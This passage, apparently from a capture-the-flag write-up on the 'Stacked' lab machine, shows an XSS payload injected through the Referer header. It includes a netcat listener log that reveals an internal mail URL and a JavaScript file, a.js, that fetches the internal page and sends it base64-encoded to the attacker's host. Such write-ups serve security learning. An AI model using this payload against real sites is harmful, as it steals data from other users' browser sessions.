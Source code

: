 The `Referer` header doesn't seem to be checked though and sending a simple payload we get a hit about one minute later on our listener.

[![xss_referer](/img/stacked/xss_referer.png)](/img/stacked/xss_referer.png)

The request reveals an internal webpage in its own referer header which we can try to exfiltrate in the next step. Note here that one of the parameters seems like it needs to be unique for every request so we will just add a letter to the parameters with each request.

```
$ sudo nc -lnvp 80
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::80
Ncat: Listening on 0.0.0.0:80
Ncat: Connection from 10.129.223.207.
Ncat: Connection from 10.129.223.207:36352.
GET /a.js HTTP/1.1
Host: 10.10.14.70
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:59.0) Gecko/20100101 Firefox/59.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://mail.stacked.htb/read-mail.php?id=2
Connection: keep-alive
```

We want to load a script in the users browser which sends a request to `http://mail.stacked.htb/` and sends the base64 encoded response back to us. This can be achived with two XML HTTP Requests's, one getting the page, the other sending the data back to us.

`a.js`
```js
var xhr = new XMLHttpRequest();
xhr.open('GET', 'http://mail.stacked.htb/', false);
xhr.send();

var data = xhr.responseText

var exfil = new XMLHttpRequest();
exfil.open('GET', 'http://10.10.14.70/?a='+ btoa(data), true);
exfil.send();
```
